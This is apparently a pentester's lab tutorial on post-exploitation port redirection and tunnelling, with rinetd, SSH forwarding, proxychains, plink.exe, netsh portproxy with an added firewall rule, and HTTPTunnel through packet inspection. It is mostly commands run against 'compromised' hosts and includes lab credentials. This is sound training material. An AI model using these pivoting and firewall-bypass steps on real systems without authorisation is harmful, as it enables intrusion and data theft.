 ```yaml
---
title: Port Redirection and Tunneling
author: nhott
date: 2022-08-23 11:33:00 +0700
categories: [Network Pentest, Post Exploitaion]
tags: [Tunneling]
pin: false
math: true
mermaid: true
image:
  path: /assets/img/posts/network_pentest/port-forwarding.png
---
```


## Port Forwarding

>     Port forwarding is the simplest traffic manipulation technique we will examine in which we redirect traffic destined for one IP address and port to another IP address and port.

| Machine  | account        |
| -------- | -------------- |
| attacker | kali@ttnho     |
| client1  | ntt@debian     |
| client2  | winserver 2016 |

_Note: kali and debian open port ssh_

### RINETD (use rinetd to redirect any traffic)

> In this fairly-common scenario, our first target, the Linux web server, has Internet connectivity, but the second machine, the Linux client, does not. We were only able to access this client by pivoting through the Internet-connected server. In order to pivot again, this time from the Linux client, and begin assessing other machines on the internal network, we must be able to transfer tools from our attack machine and exfiltrate data to it as needed. Since this client can not reach the Internet directly, we must use the compromised Linux web server as a go-between, moving data twice and creating a very tedious data transfer process.

![](/assets/img/posts/network_pentest/port-redirection-tunneling/image1.png)

Check access the internet:

```bash
kali@ttnho:~$ ping google.com -c 1
kali@ttnho:~$ nc -nvv 216.58.207.142 80
```

> _Linux client is indeed disconnected from the Internet. In order to transfer files to an Internet-connected host, we must first transfer them to the Linux web server and then transfer them again to our intended destination.Instead, we will use a port forwarding tool called rinetd1 to redirect traffic on our Kali Linux server._

Install rinetd tool:

```bash
kali@ttnho:~$ sudo apt update && sudo apt install rinetd
```

After install rinetd, configuration file, /etc/rinetd.conf, lists forwarding rules that require four parameters, including _bindaddress - bindport - connectaddress - connectport which define the traffic's destination address and port_

Exam: use rinetd to redirect any traffic received by the Kali web server on port 80 to the google.com IP address we used in our tests. To do this, we will edit the rinetd configuration file and specify the following forwarding rule 0.0.0.0 80 216.58.207.142 80

Check file configuration rinetd:

```bash
kali@ttnho:~$ cat /etc/rinetd.conf
	...
	# bindadress  bindport  connectaddress  connectport
	0.0.0.0 80 216.58.207.142 80
	...
```

Restart rinetd service

```bash
kali@ttnho:~$ sudo service rinetd restart
```

![](/assets/img/posts/network_pentest/port-redirection-tunneling/image2.png)

## SSH Tunneling

### SSH Local Port Forwarding

SSH _local port forwarding_ allows us to tunnel a local port to a remote server using SSH as the transport protocol. The effects of this technique are similar to rinetd port forwarding, with a few twists

Check config ssh local port forwarding:

```bash
root@ttnho:~$ cat /root/port_forwarding_and_tunneling/ssh_local_port_forwarding.sh
```

SSH Local port forwarding

```bash
kali@ttnho:~$ sudo ssh -N -L [bind_address:]port:host:hostport [username@address]
kali@ttnho:~$ sudo ssh -N -L 0.0.0.0:445:192.168.1.110:445 ntt@10.11.0.128
```

![](/assets/img/posts/network_pentest/port-redirection-tunneling/image3.png)

### SSH Remote Port Forwarding

```bash
ntt@debian:~$ ssh -N -R [bind_address:]port:host:hostport [username@address]
ntt@debian:~$ ssh -N -R 10.11.0.4:2221:127.0.0.1:3306 kali@10.11.0.4
```

![](/assets/img/posts/network_pentest/port-redirection-tunneling/image4.png)

### SSH Dynamic Port Forwarding

> Dynamic port forwarding allows you to create a socket on the local (ssh client) machine, which acts as a SOCKS proxy server. When a client connects to this port, the connection is forwarded to the remote (ssh server) machine, which is then forwarded to a dynamic port on the destination machine. This way, all the applications using the SOCKS proxy will connect to the SSH server, and the server will forward all the traffic to its actual destination.

Dynamic Port Forwarding

```bash
kali@ttnho:~$ ssh -N -D [address_bind]:port_bind [username@<IP_server>]
kali@ttnho:~$ sudo ssh -N -D 127.0.0.1:8080 student@10.11.0.128
```

Modify proxychains config

```bash
kali@ttnho:~$ cat /etc/proxychains.conf
	...
	[ProxyList]
	#add proxy here
	#meanwile
	#defaults set to "tor"
	socks4 127.0.0.1 8080
```

![](/assets/img/posts/network_pentest/port-redirection-tunneling/image5.png)

syntax with proxychains

```bash
kali@ttnho:~$ sudo proxychains nmap --top-port=20 -sT -Pn 192.168.1.10
```

## PLINK.exe

> Assume: we have gained access to a Windows 10 machine during our assessment through a vulnerability. We would like to scan this database or interact with the service. However, because of the firewall, we cannot directly interact with this service from our Kali machine.
> =>use plink.exe to connect via SSH (-ssh) to our Kali machine (10.11.0.4) as the kali user (-l kali) with a password of "ilak" (-pw ilak) to create a remote port forward (-R) of port 1234 (10.11.0.4:1234) to the MySQL port on the Windows target (127.0.0.1:3306)

```powershell
c:\nho> plink.exe
c:\nho> plink.exe -ssh -l kali -pw kali -R 10.11.0.4:1234:127.0.0.1:3306 10.11.0.4

#However, since this will most likely not work with the interactivity level we have in a typical reverse shell, we should pipe the answer to the prompt with the cmd.exe /c echo y command. From our reverse shell, then, this command will successfully establish the remote port forward without any interaction:
c:\nho> cmd.exe /c echo y | plink.exe -ssh -l kali -pw ilak -R 10.11.0.4:1234:127.0.0.1:3306 10.11.0.4

#Now that our tunnel is active, we can attempt to launch an Nmap scan of the target's MySQL port via our localhost port forward on TCP port 1234:
kali@ttnho:~$ sudo nmap -sS -sV 127.0.0.1 -p 1234
```

## NETSH

Require:

- The windows system must have the IP Helper service running

- IPv6 support must be enabled for the interface we want to use

Example: we will use the netsh (interface) context to add an IPv4-to-IPv4 (v4tov4) proxy (portproxy) listening on 10.11.0.22 (listenaddress=10.11.0.22), port 4455 (listenport=4455) that will forward to the Windows 2016 Server (connectaddress=192.168.1.110) on port 445 (connectport=445)

Note: payload on the compromised machine

```powershell
c:\Windows\system32> netsh interface portproxy add v4tov4 listenport=4455 listenaddress=10.11.0.22 connectport=445 connectaddress=192.168.1.110

#Check port 4455 is listening on the compromised windows host
c:\Windows\system32> netstat -anp TCP | find "4455"

#using netsh to allow inbound traffic on TCP port 4455 (default Windows Firewall will disallow inbound connection on TCP port 4455)
c:\Windows\system32>netsh advfirewall firewall add rule name="forward_port_rule" protocol=TCP dir=in localip=10.11.0.22 localport=4455 action=allow

#connect to compromised windows machine on port 4455 using smbclient
kali@ttnho:~$ sudo nano /etc/samba/smb.conf
kali@ttnho:~$ cat /etc/samba/smb.conf
kali@ttnho:~$ sudo /etc/init.d/smbd restart
kali@ttnho:~$ smbclient -L 10.11.0.22 --port=4455 --user=Administrator

kali@ttnho:~$ sudo mkdir /mnt/win10_share
kali@ttnho:~$ sudo mount -t cifs -o port=4455 //10.11.0.22/Data -o username=Administrator,password=Qwerty09! /mnt/win10_share
kali@ttnho:~$ ls -l /mnt/win10_share/
kali@ttnho:~$ cat /mnt/win10_share/data.txt
```

## HTTPTunneling through Deep Packet Inspection

Certain deep packet content inspection devices may only allow specific protocols. If, for example, the SSH protocol is not allowed, all the tunnels that relied on this protocol would fail.

![](/assets/img/posts/network_pentest/port-redirection-tunneling/image6.png)

View content of the http_tunneling

```shell
root@debian:~$ cat /root/port_forwarding_and_tunneling/http_tunneling.sh
root@debian:~$ /root/port_forwarding_and_tunneling/http_tunneling.sh
```

Install HTTPtunnel

```shell
kali@ttnho:~$ apt-cache search httptunnel
kali@ttnho:~$ sudo apt install httptunnel
```

Local port forward from debian to windows server remote desktop port

```shell
www-data@debian:/$ ssh -L 0.0.0.0:8888:192.168.1.110:3389 student@127.0.0.1
ntt@debian:~$ ss -antp | grep "8888"
```

Setting up the server component of HTTPTunnel

```shell
ntt@debian:~$ hts --forward-port localhost:8888 1234
ntt@debian:~$ ps aux | grep hts
ntt@debian:~$ ss -antp |grep "1234"
```

Setting up the client component of HTTPTunnel

```shell
kali@ttnho:~$ htc --forward-port 8080 10.11.0.128:1234
kali@ttnho:~$ ps aux | grep htc
kali@ttnho:~$ ss -antp | grep "8080"
```

Check rdp from kali to windows server

```shell
kali@ttnho:~$ rdesktop 127.0.0.1:8080
```

